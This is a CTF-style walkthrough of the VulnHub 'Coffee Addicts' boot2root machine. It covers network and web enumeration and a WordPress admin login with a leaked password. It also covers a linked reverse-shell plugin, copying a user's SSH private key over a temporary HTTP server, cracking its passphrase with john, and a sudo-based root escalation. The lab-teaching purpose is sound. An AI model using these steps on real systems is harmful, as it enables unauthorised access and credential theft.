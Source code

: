 ```yaml
---
title: "Coffee Addicts : Write Up"
date: 2024-06-22
draft: false
categories: "write-up"
tags: ["boot2root", "vulnhub", "ctf"]
cover:
  image: "/1/cover.png"
  # can also paste direct link from external site
  # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
  alt: "Coffee Addicts"
  caption: "Coffee Addicts"
  relative: false # To use relative path for cover image, used in hugo Page-bundles
---
```

#### The challenge is based on : https://www.vulnhub.com/entry/coffee-addicts-1,699/  
another vulnhub boot2root machine, well let's get started! first of all let's use netdiscover to see where the machine is.  

```bash
$ sudo netdiscover
```
![Netdiscover](/1/1.png)

i retrieved the machine as 192.168.3.16, now let's enumerate it with nmap.  
```bash
$ nmap 192.168.3.16 -A
```
![nmap](/1/2.png)

Now we get 80 and 22 which means it has a website and an SSH open for us, let's check the website  
```plain
192.168.3.16:80
```
![3](/1/3.png)
it prompts us to add coddeeaddicts.thm to our hostsfile… fair enough.  
![4](/1/4.png)
it's done and what is this?  
![5](/1/5.png)
this BadByte looks bad… let's see what's beyond this using dirb

```bash
$ dirb http://coffeeaddicts.thm/ "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt"
```
![6](/1/6.png)
looks like it has /wordpress site let's check it out!  
![7](/1/7.png)
it looks fantastic for me, now what's beyond this? after i opened the first post it has something interesting…  
![8](/1/8.png)
now password?? alright let's see the post and try to guess which one for our /wp-admin, and it turns out it's just  
```plain
gusineedyouback
```
![9](/1/9.png)
we're in! now what we can do now is to upload a plugin that is capable doing a reverse shell, the payload that i'm using is from a wonderful webiste called sevenlayers go check that out!  
> https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

![10](/1/10.png)
![11](/1/11.png)
![12](/1/12.png)
nice! now let's look around on our /home  
![13](/1/13.png)
if we go to the gus directory and we can see the user.txt  
![alt](/1/14.png)
first flag done now what about the readme.txt?  
![alt](/1/15.png)
nothing we can do except going to BadByte home directory  
![alt](/1/16.png)
the .ssh/ folder containing the id_rsa, we can use this.  
![alt](/1/17.png)
let's extract it! on our victim machine we run :  
```bash
$ python3 -m http.server 8080
```
on our attacker machine we run :  
```bash
$ curl coffeeaddicts.thm:8080/id_rsa
$ chmod 600 id_rsa
```

if we do ssh into coffeeaddicts we are prompted with passphrase for our id_rsa… let's bruteforce it using ssh2john  
```bash
$ wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```
and then run the ssh2john to hash our id_rsa

```bash
$ python3 ssh2john.py id_rsa | tee hash
```

finally we crack it open using john
```bash
$ john hash --wordlist="/usr/share/wordlists/rockyou.txt"
```
![alt](/1/18.png)
we made it! the passphrase is just good ol'
```plain
password
```

now let's ssh into the machine as badbyte for the passphrase and password is the same.  
```bash
$ ssh badbyte@coffeeaddicts.thm -i id_rsa
```
![alt](/1/19.png)
we're in finally let's see the .bash_history if the badbyte guy doing anything  
![alt](/1/20.png)
yup he surely did! there's something on /opt/BadByte let's check it out  
![alt](/1/21.png)
hmm let's see what's this all about  
![alt](/1/22.png)
it's a system command call, what if we run sudo on this machine just like what he did.  
![alt](/1/23.png)
now the system() is considered as root since we pass sudo. to prove my assumption we run whoami :  
![alt](/1/25.png)
as expected, now let's actually become root by using  
```bash
$ su
```
![alt](/1/26.png)

it's officially game over let's see the /root/root.txt for our flag  
![alt](/1/27.png)